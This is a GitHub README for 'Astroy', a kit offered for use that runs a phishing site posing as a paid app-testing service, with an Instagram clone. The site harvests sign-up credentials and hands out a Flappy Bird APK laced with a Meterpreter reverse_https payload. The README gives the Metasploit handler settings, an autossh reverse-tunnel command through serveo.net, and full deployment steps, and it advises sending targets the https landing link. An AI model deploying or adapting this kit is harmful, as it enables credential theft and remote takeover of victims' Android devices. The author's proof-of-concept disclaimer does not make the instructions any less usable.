


# Astroy

[]()
[]()
[]()
[]()
[]()
[]()
[]()

> Astroy is a collection of templates outsourced from different projects, combined to launch a powerful, attractive and easy to pull off a two-in-one phishing and Android malware distribution campaign.

[](https://asciinema.org/a/246235)

I made this as a tool without distribution in mind, and did not think I would come to open-source it. As a result, a LOT of assumptions have been made when coding this, and it's gonna take you a bit of tweaking if the OS you're running isn't configured in accordance with how the script wants. Shouldn't be too hard, though.

## Why Astroy?

<p align="center">

</p>

We live in a generation where, although most people would fall for most get-rich-quick scams, the effort required to social engineer them into actually compromising themselves is tremendous. Astroy sells itself as an ordinary website that pays users to install and use its Android apps - which is obviously untrue. It instead gathers the credentials of anyone who signs up for it, and provides a malicious ``APK`` file (a Flappy Bird game laced with a reverse-https payload) for the unsuspecting user to download. If the user runs the malicious game, the attacker will gain a Meterpreter session, effectively pulling off a successful double penetration (no pun intended).


The web templates include a normal sign up page, and an Instagram clone. The reason I did not add more popular templates like Facebook and Google is because their designs weren't as appealing as Instagram's. Special shout out to [thelinuxchoice](https://github.com/thelinuxchoice) for the Instagram phishing template - I modified their version a bit, removed their backend and added mine.


The Flappy Bird game is hardcoded with the LHOST ``serveo.net`` and LPORT ``2345``, therefore, anyone can use it with these values. On Metasploit, run ``set lhost localhost`` and ``set lport 2345`` and ``set payload android/meterpreter/reverse_https`` to configure the multi handler. Just make sure you run ``autossh -tt -M 0 -o 'ServerAliveInterval 30' -o 'ServerAliveCountMax 3' -R 2345:localhost:2345 serveo.net`` to forward TCP connections to your machine, and your payload will connect over WAN, only ever disconnecting if you terminate it.


Astroy only serves as a proof of concept on what black hat hackers can achieve if they get creative. I take no responsibility whatsoever for any usage of the tool for any illegal activities by anyone else.

## Assumptions

Because I initially coded this without distribution in mind, it was made without consideration for other Linux OS's. As such, this tool is made with the assumption that:

1. You're system has Python 3. To set up most of the things that the tool needs, you'll need to run the main python file (``setup.py``) with Python 3. Also, the ``index.php`` files in the directories ``download`` and ``account/instagram`` make calls to Python 3 to run ``retrieve.py`` and ``del.py`` respectively. Depending on how you invoke your Python 3 (for example, I run files like this - ``python3 example.py`` - because my system has two Python versions installed), you might need to alter the default invocation in the ``index.php`` files specified above. Lastly, every Python file in Astroy has a shebang that invokes the Python 3 version installed on my system - this assumes that your Python 3 is located at ``/usr/bin/python3``. Change this line as necessary.

2. Your system has ``Apache2`` and that the default directory for serving web pages is ``/var/www/html``. It also assumes that you have correctly set up ``PHP`` with Apache so that any PHP files are correctly rendered by Apache when its webserver is started. The default Apache webserver listens on port `80`, and this tool abides by that.

3. Your system has ``PHP``. I recommend version ``7``, because I haven't tested this tool with other versions of PHP. 

4. Your system has ``OpenSSH`` and ``AutoSSH``. These are used to establish connections to [Serveo](http://serveo.net), which forwards ports and allows your locally served web pages to be available publicly.

5. You will clone all the main files to ``/var/www/html``, or copy them to that directory. This means that the directories ``account``, ``download``, ``img`` and ``verify``, plus the files ``index.php``, ``requirements.txt`` and ``setup.py`` will all be inside the directory ``/var/www/html``. This is the base directory, where Apache will serve ``index.php`` as the landing page, under the default url ``https://astroy.serveo.net``. The directories ``account``, ``account/instagram``, ``verify`` and ``download`` will all serve their files through PHP servers (either on custom ports or the default ones if none are provided as arguments), and will have the urls ``https://account.serveo.net``, ``https://app.serveo.net``, ``https://verify.serveo.net`` and ``https://download.serveo.net`` respectively. For the sake of avoiding conflict, be sure there are no existing files in ``/var/www/html`` before you copy or download Astroy's files to this directory.

6. It will be totally misused. With the rise of noob hackers and experienced black hats looking for easy scripts for use in their  nefarious activities, this tool is bound to act as an asset for breaking the law. Since [Serveo](http://serveo.net) blocks phishing subdomains as soon as the subdomain is reported, the urls mentioned in ``Assumption 5`` will most likely be blocked after a while, or flagged as malicious - yet they are hardcoded in the PHP files, without any provided means to change them via the command line. The assumption this tool makes is that you'll have to edit each PHP file individually, find any anchor links pointing to the default subdomains and manually change them to the desired subdomains.

7. You are running Linux, as root. I coded this for Kali, but with the right tweaking, it will run on any Linux OS smoothly.

## Pre-requisites

You basically need [``Apache2``](https://www.google.com/amp/s/likegeeks.com/linux-web-server/amp/), [``OpenSSH``](https://www.google.com/amp/s/www.tecmint.com/install-openssh-server-in-linux/amp/), [``PHP``](https://www.tutorialspoint.com/php/php_installation_linux.htm) and [``AutoSSH``](https://www.everythingcli.org/ssh-tunnelling-for-fun-and-profit-autossh/).

Tap each package to get an idea on how the installation and configuration procedures are like (I couldn't possibly write the entire guide), and it will get you up and running in no time.

For Kali Linux users (and Ubuntu) you can get the packages installed using this one liner:

```sh
apt-get install ssh autossh php apache
```


You'd need to generate your SSH keys by typing ``ssh-keygen``. Only after you are sure you've got things set up and working correctly should you proceed with the next step.

## Installation

Clone the repository:

```sh
git clone https://github.com/briancanspit/astroy.git
```

Get into the cloned directory:

```sh
cd astroy
```

Copy all the files in the directory to Apache's base directory:

```sh
cp -r * /var/www/html
```

## Setting Things Up

Get into the base directory the script relies on:

```sh
cd /var/www/html
```

You need to change ownership of the files recursively, to give Apache ownership. Run:

```sh
chown -R www-data *
```

Depending on how you invoke Python 3 on your system, run this command to install the requirements needed by Python:

```sh
python3 -m pip install -r requirements.txt
```



Finally, run the setup script. This simply checks whether you have internet, whether the packages it needs are installed, whether you provided any ports as arguments and finally creates an ``astroy`` file at ``/usr/bin/`` which can be run globally from any directory. This setup script can be run without arguments like this:

```sh
python3 setup.py
```

Running it without any arguments makes the script default to using the default ports, which are ``80``, ``222``, ``333``, ``444`` and ``555``. To provide your own arguments (provide exactly 5), run the script like this (assume you want the ports to be ``80``, ``555``, ``777``, ``888`` and ``999``):

```sh
python3 setup.py 80 555 777 888 999
```

This tool assumes the first command line argument will always be ``80``. If everything goes well, your screen's output should resemble mine's:

[](https://asciinema.org/a/246233)

## Usage

Now, if the file ``setup.py`` exited without errors, there should exist a file called ``astroy``, whose path should be ``/usr/bin/astroy``. Run it to start the relevant servers for you, like this:

```sh
astroy
```

Your final output should resemble the one below:



And you are live! All you need to do is send your target the landing page link, that is, ``https://astroy.serveo.net`` (there are tons of ways you could do this). Note that Serveo makes the link accessible through both ``http`` and ``https``. Since ``https`` is more appealing and convincing, all the anchor links point to ``https`` subdomains. Your job is to make sure you distribute the first link as ``https://astroy.serveo,net``, not as ``http://astroy.serveo.net`` (though using the latter is entirely up to you).

## Meta

Shoot me a message on Twitter- [@briancanspit](https://twitter.com/briancanspit)

Follow me on Instagram- [@briancanspit](https://instagram.com/briancanspit)

Or email me - briancanspit@gmail.com

Distributed under the MIT license. See ``LICENSE`` for more information.

## Donate

[]()

If you feel like my tool has been helpful or educative to you in any way, below's my bitcoin address:

``1Po7v8gcwsfSxPrtNH1KgfmmV6hgYiqBTb``

Feel free to donate towards the development of more tools like this by me. Thanks in advance! 

